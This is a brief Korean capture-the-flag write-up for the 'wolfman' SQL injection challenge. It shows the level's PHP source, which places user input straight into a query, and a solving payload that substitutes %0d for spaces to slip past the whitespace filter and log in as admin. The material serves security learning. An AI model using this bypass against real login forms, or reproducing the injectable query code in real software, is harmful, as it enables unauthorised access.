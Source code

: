 # wolfman

소스코드는 다음과 같다.

```php
<?php 
    include "./config.php"; 
    login_chk(); 
    $db = dbconnect(); 
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
    if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
    $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'"; 
    echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
    $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
    if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
    if($result['id'] == 'admin') solve("wolfman"); 
    highlight_file(__FILE__); 
?>
```

`id`가 `admin`으로 로그인이 된다면, 문제가 풀린다. `preg_match`를 보니 `whitespace`에 대해 `escape`를 해야한다.

> ?pw=' or id='admin 에서 공백을 %0d로 채워준다.
>
> ?pw='%0dor%0did='admin

`where`문이 True가 되어 클리어!


